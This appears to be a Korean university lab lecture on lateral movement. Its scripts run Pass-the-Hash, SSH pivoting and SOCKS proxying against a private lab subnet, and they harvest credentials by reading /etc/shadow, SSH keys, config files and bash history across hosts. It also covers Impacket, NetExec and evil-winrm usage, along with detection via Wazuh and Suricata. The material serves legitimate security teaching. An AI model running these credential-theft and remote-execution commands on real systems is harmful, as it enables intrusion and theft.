

# Week 08: 측면 이동 — Pass-the-Hash, WMI, PSExec, SSH 피봇

## 학습 목표
- **측면 이동(Lateral Movement)**의 개념과 APT 공격에서의 중요성을 이해한다
- **Pass-the-Hash(PtH)** 공격의 원리를 이해하고 NTLM 해시로 인증을 우회할 수 있다
- **WMI, PSExec, WinRM** 등 Windows 원격 실행 기법의 원리와 차이를 설명할 수 있다
- **SSH 피봇팅**으로 네트워크 세그먼트를 넘어 원격 호스트에 접근할 수 있다
- **프록시 체인**을 구성하여 다중 호스트를 경유하는 공격 경로를 구축할 수 있다
- 측면 이동의 탐지 기법(이벤트 로그, 네트워크 이상)을 이해하고 대응할 수 있다
- MITRE ATT&CK Lateral Movement 전술의 세부 기법을 매핑할 수 있다

## 전제 조건
- SSH 접속과 터널링(Week 03)에 대한 실습 경험이 있어야 한다
- NTLM 인증과 Kerberos 프로토콜(Week 05)을 이해하고 있어야 한다
- 네트워크 세그멘테이션 개념을 알고 있어야 한다
- Linux 및 Windows 원격 관리 도구 기본 개념을 알고 있어야 한다

## 실습 환경

| 호스트 | IP | 역할 | 접속 |
|--------|-----|------|------|
| bastion | 10.20.30.201 | 실습 기지 (초기 접근점) | `ssh ccc@10.20.30.201` |
| secu | 10.20.30.1 | 방화벽/IPS (피봇 대상) | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 웹 서버 (1차 침투 대상) | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (최종 목표) | `ssh ccc@10.20.30.100` |

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:35 | 측면 이동 이론 + PtH/PtT 개념 | 강의 |
| 0:35-1:10 | Pass-the-Hash + Windows 기법 실습 | 실습 |
| 1:10-1:20 | 휴식 | - |
| 1:20-1:55 | SSH 피봇팅 + 프록시 체인 실습 | 실습 |
| 1:55-2:30 | 다중 호스트 피봇 시나리오 | 실습 |
| 2:30-2:40 | 휴식 | - |
| 2:40-3:10 | 측면 이동 탐지 + 종합 실습 | 실습 |
| 3:10-3:30 | ATT&CK 매핑 + 퀴즈 + 과제 | 토론/퀴즈 |

---

# Part 1: 측면 이동 이론 (35분)

## 1.1 측면 이동이란?

측면 이동(Lateral Movement)은 초기 침투 후 **네트워크 내부의 다른 시스템으로 이동**하는 기법이다. APT의 핵심 단계로, 최종 목표(도메인 컨트롤러, 데이터베이스 등)에 도달하기 위해 여러 시스템을 경유한다.

```
[측면 이동 시나리오]

인터넷 → [web 서버] → [내부 네트워크] → [DB 서버]
              ↓                              ↓
         초기 침투                        최종 목표
              ↓                              ↑
         권한 상승 → 크레덴셜 수집 → 측면 이동
```

### 측면 이동 기법 분류

| 기법 | 프로토콜 | 필요 조건 | OS | ATT&CK |
|------|---------|----------|-----|--------|
| **Pass-the-Hash** | NTLM | NTLM 해시 | Windows | T1550.002 |
| **Pass-the-Ticket** | Kerberos | TGT/TGS | Windows | T1550.003 |
| **PSExec** | SMB/RPC | 관리자 크레덴셜 | Windows | T1569.002 |
| **WMI** | DCOM/WMI | 관리자 크레덴셜 | Windows | T1047 |
| **WinRM** | HTTP/HTTPS | 관리자 크레덴셜 | Windows | T1021.006 |
| **RDP** | RDP(3389) | 유효한 크레덴셜 | Windows | T1021.001 |
| **SSH** | SSH(22) | 키/패스워드 | Linux | T1021.004 |
| **SSH 피봇** | SSH + SOCKS | SSH 접근 | Linux | T1090 |
| **SMB** | SMB(445) | 유효한 크레덴셜 | Both | T1021.002 |

## 1.2 Pass-the-Hash (PtH) 상세

PtH는 평문 비밀번호 없이 **NTLM 해시만으로 인증**하는 기법이다.

```
[정상 NTLM 인증]
클라이언트: 비밀번호 입력 → NTLM 해시 계산 → 챌린지 응답
서버: 챌린지 전송 → 응답 검증 → 인증 성공

[Pass-the-Hash]
공격자: 탈취한 NTLM 해시 → 챌린지 응답 (해시로 직접 계산)
서버: 챌린지 전송 → 응답 검증 → 인증 성공!
(서버는 해시에서 왔는지 비밀번호에서 왔는지 구별 불가)
```

### PtH 도구

| 도구 | 용도 | 명령 예시 |
|------|------|----------|
| **Impacket psexec** | SMB 원격 실행 | `psexec.py -hashes :NTLM user@target` |
| **Impacket wmiexec** | WMI 원격 실행 | `wmiexec.py -hashes :NTLM user@target` |
| **Impacket smbexec** | SMB 기반 실행 | `smbexec.py -hashes :NTLM user@target` |
| **CrackMapExec** | 다중 호스트 PtH | `cme smb targets -u user -H NTLM` |
| **Mimikatz** | PtH + 토큰 조작 | `sekurlsa::pth /user:admin /ntlm:HASH` |
| **Evil-WinRM** | WinRM PtH | `evil-winrm -i target -u user -H HASH` |

## 실습 1.1: Pass-the-Hash 시뮬레이션

> **실습 목적**: NTLM 해시를 이용한 Pass-the-Hash 공격의 전체 흐름을 시뮬레이션한다
>
> **배우는 것**: NTLM 해시 추출, PtH 인증, 원격 명령 실행의 전 과정을 이해한다
>
> **결과 해석**: NTLM 해시만으로 원격 시스템에 인증에 성공하면 PtH 공격이 성공한 것이다
>
> **실전 활용**: AD 환경 모의해킹에서 크레덴셜 재사용을 통한 측면 이동에 활용한다
>
> **명령어 해설**: Impacket의 psexec.py는 SMB를 통해 원격 명령을 실행하며 -hashes 옵션으로 PtH를 수행한다
>
> **트러블슈팅**: SMB 서명이 필수이면 PtH가 차단될 수 있다. 다른 프로토콜(WMI)로 전환한다

```bash
# Pass-the-Hash 시뮬레이션
python3 << 'PYEOF'
import hashlib

print("=== Pass-the-Hash 시뮬레이션 ===")
print()

# 1. NTLM 해시 생성 (시뮬레이션)
password = "P@ssw0rd123"
ntlm_hash = hashlib.new('md4', password.encode('utf-16-le')).hexdigest()
print(f"[1] 비밀번호: {password}")
print(f"    NTLM 해시: {ntlm_hash}")
print()

# 2. 해시 탈취 시나리오
print("[2] NTLM 해시 탈취 방법:")
print("  a) Mimikatz: sekurlsa::logonpasswords → 메모리에서 추출")
print("  b) SAM 파일: reg save HKLM\\SAM sam.hive → 오프라인 추출")
print("  c) NTDS.dit: DCSync → 도메인 전체 해시")
print("  d) Responder: LLMNR/NBT-NS 포이즈닝 → 네트워크 스니핑")
print()

# 3. PtH 실행
print("[3] Pass-the-Hash 명령 예시:")
print(f"  psexec.py -hashes :{ntlm_hash} administrator@10.20.30.80")
print(f"  wmiexec.py -hashes :{ntlm_hash} administrator@10.20.30.80")
print(f"  evil-winrm -i 10.20.30.80 -u administrator -H {ntlm_hash}")
print(f"  cme smb 10.20.30.0/24 -u administrator -H {ntlm_hash}")
print()

# 4. CrackMapExec 스프레이
print("[4] 해시 스프레이 (한 해시로 전체 네트워크 시도):")
hosts = ["10.20.30.1", "10.20.30.80", "10.20.30.100", "10.20.30.201"]
for h in hosts:
    print(f"  cme smb {h} -u administrator -H {ntlm_hash}")

print()
print("=== PtH 방어 ===")
print("1. Protected Users 그룹 사용 (NTLM 인증 비활성)")
print("2. Credential Guard 활성화 (메모리 보호)")
print("3. 로컬 관리자 계정 비활성화/랜덤화 (LAPS)")
print("4. SMB 서명 강제")
print("5. 네트워크 세그멘테이션")
PYEOF
```

---

# Part 2: SSH 피봇팅과 프록시 체인 (35분)

## 2.1 SSH 피봇팅 개요

SSH 피봇팅은 **SSH 연결을 통해 네트워크 경계를 넘어** 다른 네트워크의 호스트에 접근하는 기법이다.

```
[직접 접근 불가]
공격자(10.20.30.201) -X-> siem(10.20.30.100):9200
                          (방화벽이 차단)

[SSH 피봇팅]
공격자 → web(10.20.30.80) → siem(10.20.30.100):9200
              SSH 터널           내부 접근
```

### 피봇팅 유형

| 유형 | SSH 옵션 | 용도 | 예시 |
|------|---------|------|------|
| 로컬 포워딩 | `-L` | 특정 포트 접근 | `-L 9200:siem:9200` |
| 리모트 포워딩 | `-R` | 역방향 접근 | `-R 4444:localhost:4444` |
| 동적 포워딩 | `-D` | SOCKS 프록시 | `-D 1080` |
| ProxyJump | `-J` | 다중 호프 | `-J ccc@10.20.30.80` |

## 실습 2.1: SSH 로컬 포트 포워딩으로 피봇

> **실습 목적**: web 서버를 경유하여 직접 접근할 수 없는 내부 서비스에 접근한다
>
> **배우는 것**: SSH -L 옵션으로 포트를 포워딩하고, 피봇 호스트를 통해 내부 서비스에 접근하는 기법을 배운다
>
> **결과 해석**: 로컬 포트에서 원격 서비스의 응답이 오면 피봇 성공이다
>
> **실전 활용**: 침투 후 내부 네트워크의 데이터베이스, 관리 인터페이스 등에 접근하는 데 활용한다
>
> **명령어 해설**: -L 로컬포트:대상IP:대상포트 형태로 포워딩을 설정한다
>
> **트러블슈팅**: 포워딩이 안 되면 SSH 서버의 AllowTcpForwarding 설정을 확인한다

```bash
echo "=== SSH 피봇팅 실습 ==="

# 시나리오: bastion → web → siem의 SubAgent API에 접근
echo "[1] 직접 접근 테스트"
curl -s -o /dev/null -w "직접: HTTP %{http_code}\n" http://10.20.30.100:8002/ 2>/dev/null || echo "직접 접근: 실패/타임아웃"

echo ""
echo "[2] web 서버를 경유한 SSH 피봇"
# web을 통해 siem:8002에 접근
sshpass -p1 ssh -f -N -L 18002:10.20.30.100:8002 ccc@10.20.30.80 2>/dev/null
sleep 2

echo "[3] 피봇을 통한 접근"
curl -s -o /dev/null -w "피봇 경유: HTTP %{http_code}\n" http://localhost:18002/ 2>/dev/null

# 정리
kill $(pgrep -f "ssh.*18002:10.20.30.100:8002" 2>/dev/null) 2>/dev/null
echo "[SSH 피봇 정리 완료]"
```

## 실습 2.2: SOCKS 프록시를 이용한 전체 네트워크 접근

> **실습 목적**: SSH 동적 포워딩으로 SOCKS 프록시를 구성하여 내부 네트워크 전체에 접근한다
>
> **배우는 것**: -D 옵션으로 SOCKS 프록시를 구성하고 proxychains로 도구를 연결하는 방법을 배운다
>
> **결과 해석**: proxychains/curl --socks5를 통해 여러 내부 호스트에 접근하면 성공이다
>
> **실전 활용**: 단일 피봇으로 내부 네트워크 전체를 스캔하고 공격하는 데 활용한다
>
> **명령어 해설**: -D 1080은 SOCKS5 프록시를 생성하며, 모든 TCP 연결을 피봇 호스트를 통해 전달한다
>
> **트러블슈팅**: SOCKS 프록시가 느리면 -o ServerAliveInterval=60을 추가한다

```bash
echo "=== SOCKS 프록시 피봇 ==="

# web 서버를 SOCKS 프록시로 구성
sshpass -p1 ssh -f -N -D 1080 ccc@10.20.30.80 2>/dev/null
sleep 2

echo "[1] SOCKS 프록시를 통한 내부 스캔"
for host in 10.20.30.1 10.20.30.80 10.20.30.100; do
  RESULT=$(curl -s --socks5 localhost:1080 -o /dev/null -w "%{http_code}" "http://$host:8002/" --max-time 5 2>/dev/null)
  echo "  $host:8002 → HTTP $RESULT"
done

echo ""
echo "[2] SOCKS 프록시를 통한 서비스 접근"
curl -s --socks5 localhost:1080 http://10.20.30.100:8002/ 2>/dev/null | head -3

# 정리
kill $(pgrep -f "ssh.*-D 1080" 2>/dev/null) 2>/dev/null
echo ""
echo "[SOCKS 프록시 정리 완료]"
```

## 실습 2.3: 다중 호프 피봇

> **실습 목적**: 여러 서버를 순차적으로 경유하는 다중 호프 피봇을 구성한다
>
> **배우는 것**: SSH ProxyJump(-J), 중첩 터널, 다중 SOCKS 프록시 체인을 배운다
>
> **결과 해석**: 2개 이상의 호스트를 경유하여 최종 대상에 접근하면 성공이다
>
> **실전 활용**: 실제 APT는 5~10개 호스트를 경유하여 추적을 어렵게 한다
>
> **명령어 해설**: -J는 ProxyJump로, 중간 호스트를 자동으로 경유하여 최종 대상에 SSH 접속한다
>
> **트러블슈팅**: ProxyJump가 지원되지 않는 구버전에서는 -o ProxyCommand를 사용한다

```bash
echo "=== 다중 호프 피봇 ==="

# 시나리오: bastion → web → secu → siem
echo "[경로] bastion → web(10.20.30.80) → secu(10.20.30.1)"

# ProxyJump를 이용한 다중 호프
echo ""
echo "[1] ProxyJump (-J) 사용"
sshpass -p1 ssh -J ccc@10.20.30.80 -o StrictHostKeyChecking=no ccc@10.20.30.1 \
  "echo '성공: $(hostname) ($(id))'" 2>/dev/null || echo "ProxyJump 실패 (sshpass 호환 문제)"

echo ""
echo "[2] 수동 중첩 터널"
# 1차 터널: bastion → web → secu:22 를 로컬 12222로
sshpass -p1 ssh -f -N -L 12222:10.20.30.1:22 ccc@10.20.30.80 2>/dev/null
sleep 1

# 2차 접속: 로컬 12222 (= secu) 에 SSH
sshpass -p1 ssh -p 12222 -o StrictHostKeyChecking=no secu@localhost \
  "echo '2-hop 피봇 성공: $(hostname)'" 2>/dev/null || echo "2-hop 피봇 실패"

# 정리
kill $(pgrep -f "ssh.*12222:10.20.30.1" 2>/dev/null) 2>/dev/null
echo "[다중 호프 정리 완료]"
```

---

# Part 3: 크레덴셜 수집과 측면 이동 체인 (35분)

## 3.1 크레덴셜 수집 기법

측면 이동의 전제는 **유효한 크레덴셜 확보**이다.

| 기법 | 대상 | 도구 | ATT&CK |
|------|------|------|--------|
| 메모리 덤프 | LSASS 프로세스 | Mimikatz, procdump | T1003.001 |
| SAM 파일 | 로컬 계정 해시 | reg save, secretsdump | T1003.002 |
| NTDS.dit | 도메인 전체 해시 | DCSync, ntdsutil | T1003.003 |
| Linux shadow | /etc/shadow | cat, 권한 상승 | T1003.008 |
| SSH 키 | ~/.ssh/ | find, cat | T1552.004 |
| 브라우저 저장 | Chrome/Firefox | LaZagne, SharpChromium | T1555.003 |
| 키체인 | macOS Keychain | security dump | T1555.001 |

## 실습 3.1: Linux 크레덴셜 수집

> **실습 목적**: Linux 시스템에서 측면 이동에 사용할 수 있는 크레덴셜을 수집한다
>
> **배우는 것**: /etc/shadow, SSH 키, 설정 파일 등에서 크레덴셜을 추출하는 기법을 배운다
>
> **결과 해석**: 유효한 비밀번호 해시나 SSH 키를 발견하면 크레덴셜 수집 성공이다
>
> **실전 활용**: 침투한 호스트에서 다른 호스트로 이동하기 위한 크레덴셜을 확보한다
>
> **명령어 해설**: find와 grep으로 시스템 전체에서 크레덴셜 관련 파일을 검색한다
>
> **트러블슈팅**: 권한이 부족하면 먼저 권한 상승(Week 06)을 수행한다

```bash
echo "=== Linux 크레덴셜 수집 ==="

echo ""
echo "[1] /etc/shadow (root 필요)"
echo 1 | sudo -S cat /etc/shadow 2>/dev/null | grep -v ":\*:\|:!:" || echo "읽기 불가"

echo ""
echo "[2] SSH 키 검색"
find /home -name "id_rsa" -o -name "id_ed25519" -o -name "id_ecdsa" 2>/dev/null
find /root -name "id_rsa" -o -name "id_ed25519" 2>/dev/null

echo ""
echo "[3] SSH known_hosts (피봇 대상 식별)"
for user_dir in /home/* /root; do
  if [ -f "$user_dir/.ssh/known_hosts" ]; then
    echo "  [$user_dir/.ssh/known_hosts]"
    cat "$user_dir/.ssh/known_hosts" 2>/dev/null | head -5
  fi
done

echo ""
echo "[4] SSH authorized_keys (접근 가능 키 확인)"
for user_dir in /home/* /root; do
  if [ -f "$user_dir/.ssh/authorized_keys" ]; then
    echo "  [$user_dir/.ssh/authorized_keys]"
    cat "$user_dir/.ssh/authorized_keys" 2>/dev/null | head -3
  fi
done

echo ""
echo "[5] 설정 파일에서 비밀번호 검색"
grep -r "password\|passwd\|secret\|token" /etc/*.conf 2>/dev/null | head -5
grep -r "password\|passwd" /opt/ 2>/dev/null | head -5

echo ""
echo "[6] 히스토리에서 크레덴셜"
for user_dir in /home/* /root; do
  HIST="$user_dir/.bash_history"
  if [ -f "$HIST" ]; then
    grep -i "ssh\|sshpass\|mysql.*-p\|psql.*-W\|curl.*-u" "$HIST" 2>/dev/null | head -3
  fi
done
```

## 실습 3.2: 원격 서버 크레덴셜 수집

> **실습 목적**: 피봇을 통해 접근한 원격 서버에서도 크레덴셜을 수집한다
>
> **배우는 것**: SSH를 통한 원격 크레덴셜 수집과 수집 결과의 활용을 배운다
>
> **결과 해석**: 각 서버에서 유효한 크레덴셜을 발견하면 추가 측면 이동이 가능하다
>
> **실전 활용**: 측면 이동 시 각 호스트에서 추가 크레덴셜을 수집하여 공격 범위를 확대한다
>
> **명령어 해설**: SSH로 원격 서버에 크레덴셜 수집 명령을 전달한다
>
> **트러블슈팅**: 원격 서버에 접근이 안 되면 피봇 경로를 확인한다

```bash
# 각 서버에서 크레덴셜 수집
for SERVER in "ccc@10.20.30.80" "ccc@10.20.30.1" "ccc@10.20.30.100"; do
  NAME=$(echo "$SERVER" | cut -d'@' -f1)
  echo "============================================"
  echo "  $NAME 크레덴셜 수집"
  echo "============================================"

  sshpass -p1 ssh -o StrictHostKeyChecking=no "$SERVER" "
    echo '--- SSH 키 ---'
    find /home -name 'id_rsa' -o -name 'id_ed25519' 2>/dev/null
    echo '--- 설정 파일 비밀번호 ---'
    grep -r 'password\|passwd' /etc/*.conf 2>/dev/null | grep -v '#' | head -3
    echo '--- .env 파일 ---'
    find / -name '.env' -type f 2>/dev/null | head -5
    echo '--- SSH 접속 이력 ---'
    grep 'ssh\|sshpass' ~/.bash_history 2>/dev/null | tail -3
  " 2>/dev/null || echo "  접속 실패"
  echo ""
done
```

---

# Part 4: 측면 이동 탐지와 종합 시나리오 (35분)

## 4.1 측면 이동 탐지

| 탐지 소스 | 지표 | 탐지 방법 |
|----------|------|----------|
| Windows 이벤트 | 4624 (로그인) | 비정상 시간/소스 로그인 |
| Windows 이벤트 | 4648 (명시적 크레덴셜) | PtH 시도 |
| Windows 이벤트 | 5140/5145 (SMB 접근) | 네트워크 공유 접근 |
| Syslog | SSH 로그인 | 비정상 소스 IP |
| 네트워크 | SMB/RPC 트래픽 | 비정상 통신 패턴 |
| 네트워크 | 내부 스캔 | 포트 스캔 감지 |
| EDR | 프로세스 생성 | PSExec, WMI 프로세스 |
| Wazuh | 파일 무결성 | 중요 파일 변경 |

## 실습 4.1: 측면 이동 탐지 모니터링

> **실습 목적**: 측면 이동 시도가 보안 장비에 어떻게 기록되는지 확인한다
>
> **배우는 것**: SSH 로그인 로그, Wazuh 알림, 네트워크 트래픽에서 측면 이동을 탐지하는 방법을 배운다
>
> **결과 해석**: 비정상 SSH 로그인, 내부 스캔 알림이 발생하면 측면 이동이 탐지된 것이다
>
> **실전 활용**: Blue Team이 측면 이동을 실시간 모니터링하고 차단하는 데 활용한다
>
> **명령어 해설**: auth.log, Wazuh 알림, Suricata 로그에서 측면 이동 지표를 검색한다
>
> **트러블슈팅**: 로그가 없으면 로깅 설정을 확인한다

```bash
echo "=== 측면 이동 탐지 모니터링 ==="

echo ""
echo "[1] SSH 로그인 기록 (web 서버)"
ssh ccc@10.20.30.80 \
  "grep 'Accepted\|Failed' /var/log/auth.log 2>/dev/null | tail -10 || echo 'auth.log 없음'" 2>/dev/null

echo ""
echo "[2] Wazuh 알림 (측면 이동 관련)"
ssh ccc@10.20.30.100 \
  "grep -i 'lateral\|ssh.*accepted\|authentication' /var/ossec/logs/alerts/alerts.json 2>/dev/null | tail -5 | python3 -c '
import sys,json
for line in sys.stdin:
    try:
        d=json.loads(line)
        print(f\"  [{d.get(\"rule\",{}).get(\"level\")}] {d.get(\"rule\",{}).get(\"description\",\"?\")[:60]}\")
    except: pass' 2>/dev/null || echo '  알림 없음'" 2>/dev/null

echo ""
echo "[3] 네트워크 이상 탐지 (Suricata)"
ssh ccc@10.20.30.1 \
  "tail -10 /var/log/suricata/fast.log 2>/dev/null | grep -i 'lateral\|smb\|ssh\|scan' || echo '  관련 알림 없음'" 2>/dev/null
```

## 실습 4.2: 종합 측면 이동 시나리오

> **실습 목적**: 초기 접근에서 최종 목표까지 전체 측면 이동 경로를 실행한다
>
> **배우는 것**: 크레덴셜 수집 → 피봇 → 정보 수집 → 다음 호프의 반복 과정을 배운다
>
> **결과 해석**: 전체 내부 네트워크에 접근하고 최종 목표(SIEM 데이터)에 도달하면 성공이다
>
> **실전 활용**: 모의해킹의 측면 이동 단계 전체 플로우에 활용한다
>
> **명령어 해설**: SSH를 기반으로 각 서버를 순차적으로 접근하고 정보를 수집한다
>
> **트러블슈팅**: 특정 호프에서 접근이 실패하면 대안 경로를 탐색한다

```bash
echo "============================================================"
echo "       종합 측면 이동 시나리오                                 "
echo "============================================================"

echo ""
echo "[Phase 1] 초기 접근 — web 서버"
echo "  공격자(bastion) → web(10.20.30.80) via SSH"
ssh ccc@10.20.30.80 \
  "echo '[+] web 접근 성공: $(hostname) ($(whoami))'; echo '    내부 네트워크: $(ip addr show | grep 'inet 10' | awk '{print \$2}' | head -1)'" 2>/dev/null

echo ""
echo "[Phase 2] 크레덴셜 수집 — web에서 정보 추출"
ssh ccc@10.20.30.80 \
  "echo '--- 네트워크 이웃 ---'; ip neigh 2>/dev/null | head -5; echo '--- SSH 접속 이력 ---'; grep 'ssh' ~/.bash_history 2>/dev/null | tail -3" 2>/dev/null

echo ""
echo "[Phase 3] 피봇 — web → secu"
ssh ccc@10.20.30.80 \
  "ssh ccc@10.20.30.1 \
    'echo \"[+] secu 접근 성공: \$(hostname) (\$(whoami))\"; echo \"    방화벽 규칙 수: \$(echo 1 | sudo -S nft list ruleset 2>/dev/null | wc -l)\"' 2>/dev/null" 2>/dev/null || echo "web→secu 피봇 실패"

echo ""
echo "[Phase 4] 피봇 — web → siem"
ssh ccc@10.20.30.80 \
  "ssh ccc@10.20.30.100 \
    'echo \"[+] siem 접근 성공: \$(hostname) (\$(whoami))\"; echo \"    Wazuh 알림 수: \$(wc -l < /var/ossec/logs/alerts/alerts.json 2>/dev/null || echo N/A)\"' 2>/dev/null" 2>/dev/null || echo "web→siem 피봇 실패"

echo ""
echo "[Phase 5] 최종 목표 — SIEM 데이터 접근"
ssh ccc@10.20.30.80 \
  "ssh ccc@10.20.30.100 \
    'echo \"--- SIEM 최근 알림 (Top 3) ---\"; tail -3 /var/ossec/logs/alerts/alerts.json 2>/dev/null | python3 -c \"
import sys,json
for l in sys.stdin:
    try:
        d=json.loads(l); print(f\\\"  {d.get(\\\\\"rule\\\\\",{}).get(\\\\\"description\\\\\",\\\\\"?\\\\\")[:60]}\\\")
    except: pass\" 2>/dev/null' 2>/dev/null" 2>/dev/null || echo "데이터 접근 실패"

echo ""
echo "============================================================"
echo "  경로: bastion → web → secu/siem (2-hop 피봇 완료)         "
echo "============================================================"
```

---

## 검증 체크리스트

| 번호 | 검증 항목 | 확인 명령 | 기대 결과 |
|------|---------|----------|----------|
| 1 | PtH 원리 이해 | 구두 설명 | NTLM 해시 인증 설명 |
| 2 | NTLM 해시 생성 | Python | 해시 계산 성공 |
| 3 | SSH 로컬 포워딩 | ssh -L | 원격 서비스 접근 |
| 4 | SOCKS 프록시 | ssh -D | 다중 호스트 접근 |
| 5 | 다중 호프 피봇 | 중첩 터널 | 2-hop 접근 성공 |
| 6 | 크레덴셜 수집 | grep/find | SSH키/해시 발견 |
| 7 | 원격 크레덴셜 | SSH 전달 | 3개 서버 수집 |
| 8 | 로그 탐지 | auth.log | SSH 로그인 기록 |
| 9 | Wazuh 탐지 | alerts.json | 관련 알림 확인 |
| 10 | 종합 시나리오 | 전체 실행 | 5 Phase 완료 |

---

## 과제

### 과제 1: 측면 이동 맵 작성 (개인)
실습 환경(10.20.30.0/24)의 전체 측면 이동 가능 경로를 네트워크 다이어그램으로 작성하라. 각 경로의 필요 크레덴셜, 사용 프로토콜, 탐지 가능성을 표시할 것.

### 과제 2: 피봇 자동화 스크립트 (팀)
SSH 피봇팅을 자동화하는 스크립트를 작성하라. 입력: 호프 목록(A→B→C→D), 출력: 자동 터널 설정 및 SOCKS 프록시 구성. 정리 기능도 포함할 것.

### 과제 3: 측면 이동 탐지 대시보드 (팀)
Wazuh 알림과 SSH 로그를 분석하여 측면 이동을 실시간 탐지하는 모니터링 방안을 설계하라. 탐지 규칙, 알림 조건, 대응 절차를 포함할 것.

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### BloodHound + SharpHound
> **역할:** Active Directory 공격 경로 그래프 분석  
> **실행 위치:** `분석 PC (BloodHound GUI) + 도메인 호스트 (SharpHound)`  
> **접속/호출:** `SharpHound.exe -c All` → `.zip` 업로드

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `BloodHound/customqueries.json` | 커스텀 Cypher 쿼리 |
| `Neo4j graph.db` | 그래프 저장소 |

**핵심 설정·키**

- `Collection method: All / DCOnly` — 수집 범위
- `Edge: HasSession, AdminTo, DCSync` — 권한 관계

**UI / CLI 요점**

- `Shortest Paths to Domain Admins` — 핵심 공격 경로 쿼리
- `Find Kerberoastable Users` — SPN 있는 사용자

> **해석 팁.** SharpHound는 **EDR 탐지 1순위**. 합법 환경에서만 실행하고, 실전 모의에서는 Stealth 컬렉션 모드 사용.

---

## 실제 사례 (WitFoo Precinct 6 — Anti-Forensic)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *Anti-Forensic* 학습 항목 매칭.

### Anti-Forensic 의 dataset 흔적 — "log delete"

dataset 의 정상 운영에서 *log delete* 신호의 baseline 을 알아두면, *Anti-Forensic* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — audit gap 발견.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | log delete |
| 정량 baseline | audit gap 발견 |
| 학습 매핑 | evidence 제거 기법 |

**자세한 해석**: evidence 제거 기법. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | log delete 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **Anti-Forensic = log delete 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — audit gap 발견.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: log gap 탐지 룰.


---

## 부록: 학습 OSS 도구 매트릭스 (Course13 — Week 08 측면이동)

### lab step → 도구 매핑

| step | 학습 항목 | OSS 도구 |
|------|----------|---------|
| s1 | impacket suite | impacket-psexec / wmiexec / smbexec |
| s2 | NetExec (CME) | nxc smb / winrm |
| s3 | evil-winrm | evil-winrm |
| s4 | chisel HTTP tunnel | chisel |
| s5 | sshuttle | sshuttle |
| s6 | proxychains4 | proxychains4 |
| s7 | impacket-secretsdump | impacket-secretsdump |
| s8 | BloodHound path | bloodhound + neo4j |

### 학생 환경 준비

```bash
# === 모두 week04, week05 에 이미 ===
pip install impacket
pipx install git+https://github.com/Pennyw0rth/NetExec
sudo gem install evil-winrm
sudo apt install -y proxychains4 sshuttle

# chisel
go install github.com/jpillora/chisel@latest

# BloodHound
sudo apt install -y bloodhound bloodhound.py neo4j
```

### Lateral Movement 5 패턴

```bash
# === 패턴 1: SSH (Linux) ===

# 1-1) 자격증명 사용
ssh user@10.0.0.5

# 1-2) Key-based (자동, 비번 없음)
ssh -i private_key user@10.0.0.5

# 1-3) ProxyJump (다중 hop)
ssh -J user@dmz-host user@internal-host

# 1-4) Dynamic SOCKS (network 전체)
ssh -D 1080 user@dmz-host
proxychains4 nmap -sT 10.0.0.0/24

# === 패턴 2: SMB (Win 환경) ===

# 2-1) PsExec (가장 표준)
impacket-psexec 'admin:Pa$$w0rd@10.0.0.5'                  # interactive shell
impacket-psexec 'CORP/admin:Pa$$w0rd@10.0.0.5' "whoami"    # 단일 명령

# 2-2) WmiExec (PsExec 보다 stealthy)
impacket-wmiexec 'admin:Pa$$w0rd@10.0.0.5'

# 2-3) SmbExec (Win Service 사용)
impacket-smbexec 'admin:Pa$$w0rd@10.0.0.5'

# 2-4) AtExec (Scheduled Task — 마지막 수단)
impacket-atexec 'admin:Pa$$w0rd@10.0.0.5' "whoami"

# === 패턴 3: Pass-the-Hash (PtH) ===
impacket-psexec -hashes :NTHASH 'admin@10.0.0.5'
impacket-wmiexec -hashes :NTHASH 'admin@10.0.0.5'

# === 패턴 4: NetExec (multi-host 자동) ===
nxc smb 10.0.0.0/24                                        # SMB enum
nxc smb 10.0.0.0/24 -u admin -p 'Pa$$w0rd'                 # spray
nxc smb 10.0.0.0/24 -u admin -H 'NTHASH'                   # PtH
nxc winrm 10.0.0.5 -u admin -H 'NTHASH'                    # WinRM PtH
nxc smb 10.0.0.5 -u admin -H 'NTHASH' -x 'whoami'          # 명령 실행

# === 패턴 5: WinRM (PowerShell remoting) ===
evil-winrm -i 10.0.0.5 -u admin -p 'Pa$$w0rd'
evil-winrm -i 10.0.0.5 -u admin -H 'NTHASH'                # PtH

# === 패턴 6: WMI (PowerShell) ===
# Win target 에서 (이미 침투 후):
# Invoke-Command -ComputerName 10.0.0.5 -ScriptBlock { ... }

# === 패턴 7: RDP ===
xfreerdp /v:10.0.0.5 /u:admin /p:'Pa$$w0rd'
xfreerdp /v:10.0.0.5 /u:admin /pth:NTHASH                  # PtH
```

### Tunneling 통합 (week03 + lateral)

```bash
# === Scenario: 외부 attacker → DMZ → Internal → DC ===

# 1) Attacker 가 DMZ 침투 (sliver beacon)
# DMZ host 에 sliver beacon 실행

